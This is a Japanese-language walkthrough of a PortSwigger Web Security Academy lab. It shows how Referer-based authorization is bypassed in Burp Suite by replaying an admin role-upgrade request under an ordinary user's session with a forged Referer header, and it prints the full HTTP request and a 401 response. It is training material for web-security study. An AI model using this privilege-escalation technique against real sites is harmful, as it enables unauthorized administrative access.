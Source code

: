 # リファラーベースの承認を攻撃

以下のハッキングラボに対する攻撃です  
https://portswigger.net/web-security/access-control/lab-referer-based-access-control  
このハッキングラボではリファラーの有無が管理者権限の判定に使用されています。

- 1. Burp Suite を起動し、Proxy タブからハッキングラボにアクセスします

* 2. 管理者でログインして、一般ユーザーのランクを上げます

* 3. Proxy タブから「GET /admin-roles?username=carlos&action=upgrade HTTP/2」リクエストを Send to Repeat します
     ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/24b01183-47a8-4f5e-bdbe-94ab2f8ea7b7)

* 4. http ヘッダーからリファラーを削除して送信すると、未承認になります。このことからリファラーベースの承認になっていることが分かります。

```
HTTP/2 401 Unauthorized
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 14

"Unauthorized"
```

- 5. 一般ユーザーでログインし、Repeater に送ったリクエストのセッションを一般ユーザーのセッションに変更し、クエリの id を一般ユーザーの id に改変します。

```
GET /admin-roles?username=wiener&action=upgrade HTTP/2
Host: 0a3c00ec04ba86d481e871fb008a0010.web-security-academy.net
Cookie: session=erznXUEAa3KmkV6cifh5xqScXYZLnNTm
Sec-Ch-Ua:
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3c00ec04ba86d481e871fb008a0010.web-security-academy.net/admin
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8
```

一般ユーザーが管理者権限を使用し、権限を付与出来ました。
